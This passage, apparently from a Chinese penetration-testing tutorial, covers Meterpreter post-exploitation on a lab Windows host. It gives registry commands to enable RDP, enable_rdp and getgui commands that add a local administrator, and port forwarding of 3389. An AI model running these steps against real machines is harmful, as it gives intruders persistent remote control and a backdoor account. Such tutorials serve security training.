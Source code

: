 #### 开启远程桌面

##### shell开启

REG查看RDP端口

```
REG query HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server\WinStations\RDP-Tcp /v PortNumber

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/8cfd7cb90cf93dba7a39f31bef565990.jpeg"/><br/> 开启RDP

```
REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 0 /f

```

##### enable_rdp模块

enable_rdp模块可以实现开启RDP

```
run post/windows/manage/enable_rdp

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/0f2315079686602751706c8e501cf6b6.jpeg"/><br/> 验证开启<br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/963511b61874808e14a0ee3e6db5e836.jpeg"/><br/> 关闭

```
run multi_console_command -r /root/.msf4/loot/20231225131125_default_192.168.200.130_host.windows.cle_755971.txt

```

##### getgui模块

```
run getgui -e 开启远程终端
run post/windows/manage/enable_rdp
run getgui -u m -p QWEasd123 添加本地管理员

```

#### 端口转发

如果服务器防火墙开启的情况下，有可能拦截远程终端端口，使用命令把远程端口3389转发出来<br/> 转发3389端口

```
portfwd add -l 1234 -p 3389 -r 192.168.200.130
rdesktop 127.0.0.1:1234

```

<img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/729178676028e2f0acfb63dfc66fba03.jpeg"/><br/> <img alt="image.png" src="https://img-blog.csdnimg.cn/img_convert/b8cc9b6991f09aeff4bf2a968596a9aa.jpeg"/>

#### 跨路由访问
